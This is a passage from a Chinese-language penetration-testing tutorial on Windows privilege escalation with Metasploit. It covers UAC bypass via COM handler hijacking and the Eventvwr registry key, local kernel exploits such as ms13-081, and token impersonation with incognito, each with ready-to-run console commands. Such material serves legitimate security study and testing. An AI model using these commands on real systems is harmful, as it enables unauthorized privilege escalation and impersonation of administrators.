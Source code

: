 - **通过 COM 处理程序劫持**

    首先介绍一下这个 COM 处理程序劫持,此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    background
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    首先介绍一下这个模块,此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
background
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
Exploit

# 或

background
use post/windows/gather/enum_patches
set session
Exploit
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                              # 查看当前用户
use incognito                       # 进入该模块
list_tokens -u                      # 查看存在的令牌
impersonate_token [Username]        # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                              # 查看是否切换成功
```

---